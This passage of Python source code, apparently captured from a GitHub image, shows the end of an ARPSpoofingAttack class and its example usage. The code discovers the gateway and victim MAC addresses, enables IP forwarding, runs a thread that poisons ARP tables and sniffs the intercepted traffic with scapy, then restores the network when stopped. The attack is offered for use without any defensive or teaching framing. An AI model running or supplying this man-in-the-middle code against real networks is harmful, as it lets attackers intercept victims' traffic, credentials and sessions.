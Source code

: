 ```python
        print(f"   Gateway: {self.gateway_ip}")
        print(f"   Interface: {self.interface}")
        
        # Get MAC addresses
        print("🔍 Discovering MAC addresses...")
        self.gateway_mac = self.get_mac_address(self.gateway_ip)
        self.target_mac = self.get_mac_address(self.target_ip)
        
        if not self.gateway_mac or not self.target_mac:
            print("❌ Failed to discover MAC addresses")
            return False
        
        print(f"✅ Gateway MAC: {self.gateway_mac}")
        print(f"✅ Target MAC: {self.target_mac}")
        
        # Test target site connectivity
        try:
            response = requests.get(self.target_site, timeout=10)
            print(f"✅ Target site accessible: HTTP {response.status_code}")
        except Exception as e:
            print(f"⚠️  Target site test failed: {e}")
        
        # Enable IP forwarding
        self.enable_ip_forwarding()
        
        # Start ARP spoofing thread
        self.running = True
        arp_thread = threading.Thread(target=self.perform_arp_spoofing, daemon=True)
        arp_thread.start()
        print("🚀 ARP spoofing started")
        
        # Start traffic capture
        try:
            print("📡 Starting traffic interception...")
            scapy.sniff(
                iface=self.interface,
                prn=self.capture_traffic,
                store=0
            )
        except KeyboardInterrupt:
            print("\n⏹️  Attack stopped by user")
        finally:
            self.running = False
            self.restore_arp_tables()
            print("🔄 Network restored to original state")

# Example usage
if __name__ == "__main__":
    # Configure attack parameters
    interface = "eth0"
    gateway_ip = "192.168.1.1"
    target_ip = "192.168.1.100"
    
    # Initialize and start attack
    attack = ARPSpoofingAttack(interface, gateway_ip, target_ip)
    attack.start_attack()
```

---